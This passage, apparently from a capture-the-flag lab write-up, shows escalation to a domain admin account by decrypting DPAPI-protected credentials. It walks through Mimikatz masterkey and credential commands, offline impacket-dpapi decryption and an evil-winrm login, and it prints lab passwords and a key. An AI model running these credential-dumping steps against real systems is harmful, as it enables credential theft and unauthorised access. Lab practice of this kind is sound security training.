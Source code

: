 - There were two remaining domain admin accounts. After checking the file system with no success, I ran WinPEAS, which identified [DPAPI](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html) credential files.

	<img width="1246" height="442" alt="image" src="https://github.com/user-attachments/assets/9b60a0ba-0bec-4329-b0ed-896fac4ba363" />

### Method 1: Extracting Credentials with Mimikatz

- I retrieved the user SID and listed hidden files:

	```python
	Get-LocalUser | Select-Object Name,SID
	Get-ChildItem -Force
	```

- Then used Mimikatz to dump the masterkey: 

	```python
	.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" exit
	```

- With the masterkey, I decrypted the DPAPI credential file:

	```python
	.\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\appdata\roaming\microsoft\credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84" exit
	```

	<img width="414" height="364" alt="image" src="https://github.com/user-attachments/assets/fa2adef0-0771-4f6b-88b7-20d8664b13fa" />

- This revealed credentials for `steph.cooper_adm`, which granted access via WinRM:

	```python
	evil-winrm -i 10.10.11.70 -u steph.cooper_adm -p FivethChipOnItsWay2025!
	```

	<img width="495" height="192" alt="image" src="https://github.com/user-attachments/assets/4842243c-0c03-4ff7-a3bf-0ccea5f49c65" />

### Method 2: Offline DPAPI Decryption with Impacket

- Following resources from [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets) and [Ben Heater's Notes](https://notes.benheater.com/books/active-directory/page/dumping-passwords-from-windows-credential-manager), I tried an offline approach.
- First, I dumped the masterkey:

	```python
	impacket-dpapi masterkey -f ./556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
	```

- Then used the key to decrypt the credential blob:

	```python
	impacket-dpapi credential  -f ./C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key "0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84"
	```
